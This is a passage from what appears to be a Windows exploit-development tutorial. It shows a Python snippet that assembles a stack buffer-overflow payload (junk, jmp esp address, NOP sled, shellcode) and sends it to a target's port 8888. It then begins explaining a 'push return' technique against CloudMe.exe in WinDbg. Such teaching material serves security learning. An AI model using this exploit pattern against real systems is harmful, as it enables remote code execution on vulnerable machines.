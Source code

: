 ```python

payload=junk+pop+junk1+jmp_esp+nop+shellcode

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```
Run exploit.

![windows](/assets/img/headers/windows-exploit-dev-part-2/win8.png)

## Push Return Technique

This technique is a little bit different than a jump or call. That's why I will not get into details. All we have to do is overwrite EIP with address of push on the one dll's.

Open WinDGB attache the process CloudME.exe ,don't use `g` for start the software.
